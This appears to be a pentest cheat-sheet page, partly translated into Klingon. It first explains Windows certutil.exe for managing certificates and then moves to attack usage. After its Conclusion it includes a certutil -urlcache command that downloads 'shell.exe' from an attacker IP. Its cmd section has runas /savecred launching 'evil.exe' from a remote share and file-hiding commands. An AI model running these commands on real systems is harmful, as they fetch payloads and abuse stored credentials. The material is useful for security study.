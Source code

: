 Certutil.exe is a command-line utility in Windows that is used to manage certificates. It provides various functions for working with certificates, such as installing, exporting, and verifying them.

## Usage

To use Certutil.exe, open a command prompt and type `certutil` followed by the desired command and its parameters.

### Examples

- **Viewing certificate details:**

```
certutil -dump <certificate_file>
```

- **Exporting a certificate:**

```
certutil -exportPFX -p <password> -f <certificate_file> <output_file>
```

- **Installing a certificate:**

```
certutil -addstore <store_name> <certificate_file>
```

- **Verifying a certificate:**

```
certutil -verify <certificate_file>
```

## Conclusion

Certutil.exe is a powerful tool for managing certificates in Windows. It provides a wide range of functions that can be useful for various certificate-related tasks.
```
certutil.exe -urlcache -split -f "http://10.10.14.13:8000/shell.exe" s.exe
```
**Qapla'! QaStaHvIS `Download` lo'laHvIS [https://lolbas-project.github.io](https://lolbas-project.github.io/) Daq yIlo'!**

## QaDmoHwI'
```bash
cd #Get current dir
cd C:\path\to\dir #Change dir
dir #List current dir
dir /a:h C:\path\to\dir #List hidden files
dir /s /b #Recursive list without shit
time #Get current time
date #Get current date
shutdown /r /t 0 #Shutdown now
type <file> #Cat file

#Runas
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe" #Use saved credentials
runas /netonly /user:<DOMAIN>\<NAME> "cmd.exe" ::The password will be prompted

#Hide
attrib +h file #Set Hidden
attrib -h file #Quit Hidden

#Give full control over a file that you owns
icacls <FILE_PATH> /t /e /p <USERNAME>:F
icacls <FILE_PATH> /e /r <USERNAME> #Remove the permision
```